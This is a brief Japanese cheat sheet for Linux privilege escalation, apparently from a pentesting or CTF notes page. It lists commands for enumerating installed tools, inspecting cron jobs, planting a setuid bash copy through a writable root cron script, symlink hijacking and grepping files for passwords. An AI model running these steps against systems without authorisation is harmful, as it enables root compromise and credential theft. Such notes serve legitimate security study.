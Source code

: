 ##### 設定ファイル

```bash
ls -alh /usr/bin/
ls -alh /sbin/
dpkg -l
rpm -qa
ls -alh /var/cache/apt/archivesO
ls -alh /var/cache/yum/

#Installed Software
which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc rkt kubectl 2>/dev/null

(dpkg --list 2>/dev/null | grep "compiler" | grep -v "decompiler\|lib" 2>/dev/null || yum list installed 'gcc*' 2>/dev/null | grep gcc 2>/dev/null; which gcc g++ 2>/dev/null || locate -r "/gcc[0-9\.-]\+$" 2>/dev/null | grep -v "/doc/")
```

#### Cron

```bash
crontab -l
ls -al /etc/cron* /etc/at* 
ls -alh /var/spool/cron
cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#"
```

Root権限で動いているCronを探すときはPSPYを使用する。

https://github.com/DominicBreuker/pspy

cronで実行しているスクリプトにWildcards Injectionがある場合

```bash
#example
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > </PATH/CRON/SCRIPT>

#実行されるまで待つ
/tmp/bash -p
```

root で実行されるスクリプトがフルアクセスできるディレクトリを使用している場合、そのフォルダを削除して、制御するスクリプトフォルダへのシンボリックリンクを作成する

```bash
ln -d -s </PATH/TO/POINT> </PATH/CREATE/FOLDER>
```



#### ユーザ名とパスワード

```bash
grep -i user [filename]
grep -i pass [filename]
grep -C 5 "password" [filename]
find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"   # Joomla
```
